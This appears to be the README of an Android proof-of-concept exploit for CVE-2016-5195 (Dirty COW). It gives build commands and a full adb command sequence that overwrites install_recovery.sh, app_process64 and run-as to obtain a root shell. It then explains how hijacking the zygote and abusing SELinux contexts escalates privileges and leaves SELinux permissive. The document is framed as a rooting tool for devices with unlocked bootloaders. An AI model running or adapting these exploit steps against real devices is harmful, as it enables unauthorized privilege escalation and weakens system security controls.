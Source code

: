 # CVE-2016-5195
CVE-2016-5195 (dirty cow/dirtycow/dirtyc0w) proof of concept for Android

## Rootter, an exploit tool to root "secure" systems with **unlocked** bootloaders

## Usage:

### Building:
```sh
lunch your_device-eng

make -j5 dirtycow recowvery-applypatch recowvery-app_process64 recowvery-run-as
```

### Running:
```sh
adb push dirtycow /data/local/tmp
adb push root-app_process64 /data/local/tmp
adb push root-run-as /data/local/tmp
adb push install_recovery.sh /data/local/tmp

adb shell

$ cd /data/local/tmp
$ chmod 0777 *
$ ./dirtycow /system/bin/install_recovery.sh install_recovery.sh
$ ./dirtycow /system/bin/app_process64 root-app_process64
"<wait for completion, your phone will look like it's crashing>"
$ exit

adb shell reboot recovery
"<wait for phone to boot up again, your recovery will be reflashed to stock>"

adb shell

$ getenforce
"<it should say Permissive, adjust source and build for your device!>"

$ cd /data/local/tmp
$ ./dirtycow /system/bin/run-as recowvery-run-as

$ run-as su
#
"<play around in your somewhat limited root shell full of possibilities>"
```

## How it works:

dirtycow manages to exploit an old bug in the copy-on-write code of the Linux kernel which can trick the system into running a different ELF executable in another "priveleged" executable's place.  
Don't quote me on that, I haven't researched it any more than I needed to.  

The `install_recovery.sh` script is a shell script which is run by init in the `u:r:install_recovery:s0` selinux domain.  
While this script is intended for replacing the recovery partition image with the OEM original (based on diff of boot partition) if it is damaged, we can abuse it to install our own recovery images.  

The `u:r:install_recovery:s0` is the only context in Android that is able to read and write to the recovery partition. It has access to only a few other items, however.  
It can run binaries in `/system/bin` under its context with limited permissions. (ex. `setenforce` for disabling/enabling selinux, and `sh` for running the `install_recovery.sh` shell script)  

We can't start the install\_recovery service ourselves, it needs to be run by init's service control. The `u:r:system_server:s0` context is capable of starting init services, so that's where root-app_process64 comes in handy.  
`/system/bin/app_process64` is a zygote executable. It brings up the Android framework and maintains it during system use.  

The `u:r:zygote:s0` context that app\_process64 starts in has permissions to transition to the `u:r:system_server:s0` context for when it brings up the system server.  
We can abuse that privelege by hijacking app\_process64 (which is run as root) with dirtycow and then transition to `u:r:system_server:s0` ourselves to start the install\_recovery service as root in the `u:r:install_recovery:s0` domain.  

We can now use dirtycow to replace the `/system/bin/run-as` execution with our own that is perfectly happy to elevate any command to root, as well as start a root shell for you.  
 
You should now be able to start your system in SELinux Permissive mode on every reboot, allowing you to use dirtycow and `run-as` to gain root access (in a shell) whenever you'd like.  

Hope you enjoyed the read, and have fun exploiting!
